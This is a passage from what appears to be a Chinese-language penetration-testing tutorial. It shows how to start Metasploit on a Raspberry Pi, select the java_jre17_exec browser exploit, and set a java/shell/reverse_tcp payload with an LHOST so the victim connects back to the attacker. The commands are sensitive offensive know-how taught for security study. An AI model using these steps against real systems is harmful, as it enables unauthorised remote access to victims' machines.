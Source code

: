 如果成功的话，您将获得对系统的访问权限。

以下图表表示这种攻击在目标网络上的样子：

![Metasploit](img/Insert6435OT_04_02.jpg)

让我们通过使用 Metasploit 来危害本地网络上的系统。

要启动 Metasploit，从命令行窗口输入`msfconsole`命令。在 Raspberry Pi 上启动 Metasploit 可能需要几分钟的时间。

以下屏幕截图显示了在 Raspberry Pi 上启动 Metasploit：

![Metasploit](img/Insert6435OT_04_03.jpg)

一旦您在 Metasploit 中使用`msfconsole`，您将看到一个新的命令提示符。让我们针对一个目标使用一个漏洞。在这个例子中，我们将演示一个 Java 漏洞。为了实现这一点，输入`use exploit/multi/browser/java_jre17_ exec`命令。

以下屏幕截图显示了上述命令的启动：

![Metasploit](img/Insert6435OT_04_04.jpg)

这将把您的提示更改为`msf exploit`。接下来，我们将使用 Metasploit 交付一个生成反向 shell 的有效载荷。**反向 shell**是攻击者从其 PC 本地访问的命令提示符，用于攻击远程受害者目标系统时运行命令。我们将使用`set PAYLOAD java/shell/reverse_tcp`命令设置有效载荷。您将看到**PAYLOAD =>** shell 与您的设置，这将确认它已被接受。

为了使攻击生效，攻击者必须在有效载荷中设置选项。您可以通过输入`show options`命令查看可用选项。一些选项是必需的，而其他选项则取决于您在使用`show options`命令时标记它们的方式。这个特定的有效载荷只需要一个选项，即`LHOST`选项。`LHOST`是攻击者的本地 IP 地址。这告诉 Metasploit，当有效载荷传递给受害者时，受害者将如何连接回攻击者。您需要确保攻击者机器的 IP 地址（`LHOST`）可以被受害者机器访问，以便在成功执行此攻击后建立连接。
